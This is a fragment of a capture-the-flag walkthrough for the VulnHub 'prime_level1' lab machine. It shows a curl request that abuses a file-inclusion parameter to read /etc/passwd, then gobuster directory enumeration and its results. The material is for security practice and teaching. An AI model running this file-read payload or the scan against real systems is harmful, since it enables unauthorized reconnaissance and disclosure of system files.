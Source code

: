 ```curl http://192.168.20.149/image.php?secrettier360=/etc/passwd```
===============================================================

Scanning webserver for hidden directories and files with extension .txt

root\@kali:\~/vulnhub/prime_level1\# gobuster dir -u 192.168.20.149 -w
/usr/share/wordlists/dirb/common.txt -x .txt

===============================================================

Gobuster v3.0.1

by OJ Reeves (\@TheColonial) & Christian Mehlmauer (\@_FireFart_)

===============================================================

[+] Url: http://192.168.20.149

[+] Threads: 10

[+] Wordlist: /usr/share/wordlists/dirb/common.txt

[+] Status codes: 200,204,301,302,307,401,403

[+] User Agent: gobuster/3.0.1

[+] Extensions: txt

[+] Timeout: 10s

===============================================================

2019/09/09 16:55:18 Starting gobuster

===============================================================

/.htaccess (Status: 403)

/.htaccess.txt (Status: 403)

/.htpasswd (Status: 403)

/.htpasswd.txt (Status: 403)

/.hta (Status: 403)

/.hta.txt (Status: 403)

/dev (Status: 200)

/index.php (Status: 200)

/javascript (Status: 301)

/secret.txt (Status: 200)

/server-status (Status: 403)

/wordpress (Status: 301)

===============================================================

2019/09/09 16:55:19 Finished

```